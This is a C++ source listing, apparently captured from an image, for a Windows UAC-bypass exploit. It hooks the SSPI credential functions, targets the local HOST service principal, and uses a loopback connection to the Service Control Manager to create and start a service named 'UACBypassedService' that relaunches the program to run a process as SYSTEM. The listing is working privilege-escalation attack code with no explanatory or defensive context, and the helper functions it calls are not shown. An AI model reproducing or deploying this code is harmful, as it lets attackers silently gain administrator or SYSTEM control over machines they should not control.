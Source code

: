 ```c++

int wmain(int argc, wchar_t** argv)
{
    if (argc > 1)
    {
        return RunSystemProcess(argv[1]);
    }

    PSecurityFunctionTableW table = InitSecurityInterfaceW();
    table->AcquireCredentialsHandleW = AcquireCredentialsHandleWHook;
    table->InitializeSecurityContextW = InitializeSecurityContextWHook;

    WCHAR computer_name[1000];
    DWORD size = _countof(computer_name);
    if (!GetComputerName(computer_name, &size))
    {
        printf("Error getting computer name %d\n", GetLastError());
        return 1;
    }

    spn = L"HOST/";
    spn += computer_name;

    std::wstring exe = GetExecutablePath();
    if (exe.empty())
    {
        return 1;
    }

    DWORD session_id = 0;
    ProcessIdToSessionId(GetCurrentProcessId(), &session_id);

    WCHAR cmdline[MAX_PATH];
    StringCbPrintf(cmdline, sizeof(cmdline), L"\"%ls\" %d\n", exe.c_str(), session_id);

    SC_HANDLE hScm = OpenSCManagerW(L"127.0.0.1", nullptr, SC_MANAGER_CONNECT | SC_MANAGER_CREATE_SERVICE);
    if (!hScm)
    {
        printf("Error opening SCM %d\n", GetLastError());
        return 1;
    }

    SC_HANDLE hService = CreateService(hScm, L"UACBypassedService", nullptr, SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
        SERVICE_DEMAND_START, SERVICE_ERROR_IGNORE, cmdline, nullptr, nullptr, nullptr, nullptr, nullptr);
    if (!hService)
    {
        printf("Error creating service %d\n", GetLastError());
        return 1;
    }

    if (!StartService(hService, 0, nullptr))
    {
        printf("Error starting service %d\n", GetLastError());
        return 1;
    }

    return 0;
}
```
